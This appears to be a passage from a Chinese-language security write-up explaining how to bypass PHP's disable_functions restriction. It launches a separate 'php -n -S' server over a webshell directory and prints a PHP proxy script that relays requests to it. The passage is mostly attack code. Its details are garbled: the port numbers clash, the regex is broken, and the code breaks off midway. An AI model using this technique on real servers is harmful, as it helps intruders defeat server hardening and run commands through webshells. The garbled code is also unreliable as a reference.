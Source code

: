 这 so 执行了`php -n -S 127.0.0.1:61989 -t /var/www/html`

**\-S 127.0.0.1:\*\***61111\*\* : 新 web 服务监听地址

**\-t /var/www/html/** : 新 http 服务的 Web 根目录，需要指定一个有 webshell 的目录

**\-n** : 表示不使用 php.ini，是这里 bypass disable\_functions 的核心所在

我们再看看代理脚本内容

```bash
function get_client_header(){
    $headers=array();
    foreach($_SERVER as $k=>$v){
        if(strpos($k,'HTTP_')===0){
            $k=strtolower(preg_replace('/^HTTP/', '', $k));
            $k=preg_replace_callback('/_\w/','header_callback',$k);
            $k=preg_replace('/^_/','',$k);
            $k=str_replace('_','-',$k);
            if($k=='Host') continue;
            $headers[]="$k:$v";
        }
    }
    return $headers;
}
function header_callback($str){
    return strtoupper($str[0]);
}
function parseHeader($sResponse){
    list($headerstr,$sResponse)=explode("

",$sResponse, 2);
    $ret=array($headerstr,$sResponse);
    if(preg_match('/^HTTP/1.1 d{3}/', $sResponse)){
        $ret=parseHeader($sResponse);
    }
    return $ret;
}

set_time_limit(120);
$headers=get_client_header();
$host = "127.0.0.1";
$port = 61989;
$errno = '';
$errstr = '';
$timeout = 30;
$url = "/index.php";

if (!empty($_SERVER['QUERY_STRING'])){
    $url .= "?".$_SERVER['QUERY_STRING'];
};

$fp = fsockopen($host, $port, $errno, $errstr, $timeout);
if(!$fp){
    return false;
}

$method = "GET";
$post_data = "";
if($_SERVER['REQUEST_METHOD']=='POST') {
    $method = "POST";
    $post_data = file_get_contents('php://input');
}

$out = $method." ".$url." HTTP/1.1\r\n";
$out .= "Host: ".$host.":".$port."\r\n";
```